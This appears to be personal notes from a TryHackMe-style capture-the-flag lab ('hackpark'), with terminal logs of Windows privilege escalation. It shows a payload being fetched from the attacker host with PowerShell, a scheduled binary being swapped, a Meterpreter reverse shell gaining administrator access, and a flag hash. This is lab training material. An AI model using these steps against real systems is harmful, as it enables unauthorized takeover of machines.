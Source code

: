 #apparently next steps are:
        #1 upload revrese.exe to the new WD
        #2 mv Message.exe Message.bak
        #3 mv reverse.exe Message.exe
        #4 background the session
        #5 rerun 'exploit'
# it went like this:

(kali㉿kali)-[~/tools/PEASS-ng/winPEAS/winPEASbat]
└─$ cd /home/kali/THM/practice/hackpark                                                                          1 ⨯
                                                                                                                     
┌──(kali㉿kali)-[~/THM/practice/hackpark]
└─$ ls
46353.cs  notes.txt  PostView.ascx  reverse.exe
                                                                                                                     
┌──(kali㉿kali)-[~/THM/practice/hackpark]
└─$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

 
C:\Program Files (x86)\SystemScheduler>powershell -c "Invoke-WebRequest -Uri 'http://10.11.59.68:80/reverse.exe'reverse.exe'"

C:\Program Files (x86)\SystemScheduler>exit
meterpreter > mv Message.exe Message.bak
meterpreter > mv reverse.exe Message.exe

#so far so good so I proceeded to do the following:
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.59.68:9001 
[*] Sending stage (175174 bytes) to 10.10.64.254
[*] Meterpreter session 2 opened (10.11.59.68:9001 -> 10.10.64.254:49295) at 2022-02-10 18:06:06 -0500

meterpreter > shell
Process 1944 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\PROGRA~2\SYSTEM~1>

#and it looks like we have gotten some new privileges
C:\PROGRA~2>whoami
whoami
hackpark\administrator


#time to look around
C:\Users\jeff\Desktop>type user.txt
type user.txt
759bd8af507517bcfaede78a21a73e39
